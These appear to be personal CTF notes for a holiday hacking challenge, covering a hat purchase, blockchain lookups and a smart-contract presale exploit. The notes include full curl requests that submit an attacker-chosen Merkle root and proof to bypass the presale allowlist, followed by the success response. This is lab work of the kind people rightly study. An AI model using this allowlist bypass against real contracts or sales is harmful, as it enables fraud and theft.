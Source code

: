 
While at entrance, get chest by going right into wall. up and a quick left then wiggle up.

# Reciept to by hat
```
![](https://prod-hats-vending.kringle.co.in/hats/viking_purple.png)

To purchase this hat you must:  

1.  Use a KTM to pre-approve a 10 KC transaction to the wallet address: 0x94201741f1e155a9e3666A883989EC00091abe8e
2.  Return to this kiosk and use Hat ID: 289 to complete your purchase.

  

**_Copy this information down - you need it!_**
```



# Blockchain Divination

![[Pasted image 20221211132510.png]]
![[Pasted image 20221211132753.png]]
![[Pasted image 20221211133415.png]]
![[Pasted image 20221211133402.png]]
```
**0xc27A2D3DE339Ce353c0eFBa32e948a88F1C86554**
```
# Exploit a Smart Contract

![[Pasted image 20221211140359.png]]
![[Pasted image 20221212073421.png]]
https://github.com/QPetabyte/Merkle_Trees
![[Pasted image 20221211140421.png]]
https://decentralizedthoughts.github.io/2020-12-22-what-is-a-merkle-tree/
![[Pasted image 20221211143351.png]]






![[Pasted image 20221216100645.png]]
```
root='0x52cfdfdcba8efebabd9ecc2c60e6f482ab30bdc6acf8f9bd0600de83701e15f1'
```
![[Pasted image 20221216101145.png]]

using 


![[Pasted image 20221219142708.png]]
using curl to enter this information i was able to buy a spoc but only with the wallet id 0x33
![[Pasted image 20221219150620.png]]

```
curl 'https://boredsporcrowboatsociety.com/cgi-bin/presale'   -H 'authority: boredsporcrowboatsociety.com'   -H 'accept: */*'   -H 'accept-language: en-GB,en-US;q=0.9,en;q=0.8'   -H 'content-type: application/json'   -H 'origin: https://boredsporcrowboatsociety.com'   -H 'referer: https://boredsporcrowboatsociety.com/presale.html?&challenge=bsrs&username=ViviG&id=544e5161-292c-404a-8bc5-0e8118fdf23b&area=level5&location=13,15&tokens='   -H 'sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"'   -H 'sec-ch-ua-mobile: ?0'   -H 'sec-ch-ua-platform: "Linux"'   -H 'sec-fetch-dest: empty'   -H 'sec-fetch-mode: cors'   -H 'sec-fetch-site: same-origin'   -H 'user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36'   --data-raw '{"WalletID":"0x3333333333333333333333333333333333333333","Root":"0x92b50ba94b4eddae31256603c1e445747eb4da7bbcce500a1c711ebeef99757e","Proof":"0x2ab0a4443bbea3fbe4d0e1503d11ff1367842fb0c8b28a5c8550f27599a40751, 0xe53833745f812dbbffd118a573b4b380aae6b82afd4839d67dd7a2f809a5554c, 0xab642276d45d87c4c538fea27c78e9fae2b6f5d3505d3f108d480897899b5993","Validate":"true","Session":"544e5161-292c-404a-8bc5-0e8118fdf23b"}'   --compressed


```
plug in my wallet to the merkle tree code
![[Pasted image 20221219184638.png]]
```
curl 'https://boredsporcrowboatsociety.com/cgi-bin/presale'   -H 'authority: boredsporcrowboatsociety.com'   -H 'accept: */*'   -H 'accept-language: en-GB,en-US;q=0.9,en;q=0.8'   -H 'content-type: application/json'   -H 'origin: https://boredsporcrowboatsociety.com'   -H 'referer: https://boredsporcrowboatsociety.com/presale.html?&challenge=bsrs&username=ViviG&id=544e5161-292c-404a-8bc5-0e8118fdf23b&area=level5&location=13,15&tokens='   -H 'sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"'   -H 'sec-ch-ua-mobile: ?0'   -H 'sec-ch-ua-platform: "Linux"'   -H 'sec-fetch-dest: empty'   -H 'sec-fetch-mode: cors'   -H 'sec-fetch-site: same-origin'   -H 'user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36'   --data-raw '{"WalletID":"0xbD6b11BFF1fE2CC643Bc8104519081C17F4c8CAa","Root":"0x72f33507449b833196424fd867dfb5f8412bffd962cd45dabb71d16bce79f4bf","Proof":"0x5380c7b7ae81a58eb98d9c78de4a1fd7fd9535fc953ed2be602daaa41767312a","Validate":"true","Session":"544e5161-292c-404a-8bc5-0e8118fdf23b"}'   --compressed


```

sporc wallet = 0xe8fC6f6a76BE243122E3d01A1c544F87f1264d3a

```
curl 'https://boredsporcrowboatsociety.com/cgi-bin/presale'   -H 'authority: boredsporcrowboatsociety.com'   -H 'accept: */*'   -H 'accept-language: en-GB,en-US;q=0.9,en;q=0.8'   -H 'content-type: application/json'   -H 'origin: https://boredsporcrowboatsociety.com'   -H 'referer: https://boredsporcrowboatsociety.com/presale.html?&challenge=bsrs&username=ViviG&id=544e5161-292c-404a-8bc5-0e8118fdf23b&area=level5&location=13,15&tokens='   -H 'sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"'   -H 'sec-ch-ua-mobile: ?0'   -H 'sec-ch-ua-platform: "Linux"'   -H 'sec-fetch-dest: empty'   -H 'sec-fetch-mode: cors'   -H 'sec-fetch-site: same-origin'   -H 'user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36'   --data-raw '{"WalletID":"0xbD6b11BFF1fE2CC643Bc8104519081C17F4c8CAa","Root":"0x72f33507449b833196424fd867dfb5f8412bffd962cd45dabb71d16bce79f4bf","Proof":"0x5380c7b7ae81a58eb98d9c78de4a1fd7fd9535fc953ed2be602daaa41767312a","Validate":"false","Session":"544e5161-292c-404a-8bc5-0e8118fdf23b"}'   --compressed
{"Response": "Success! You are now the proud owner of BSRS Token #000256. You can find more information at https://boredsporcrowboatsociety.com/TOKENS/BSRS256, or check it out in the gallery!<br>Transaction: 0x829fab887c9706039279252cfc5108b806ab69da97d3a5612854fea031be7249, Block: 74609<br><br>Remember: Just like we planned, tell everyone you know to <u><em>BUY A BoredSporc</em></u>.<br>When general sales start, and the humans start buying them up, the prices will skyrocket, and we all sell at once!<br><br>The market will tank, but we'll all be rich!!!"}
```

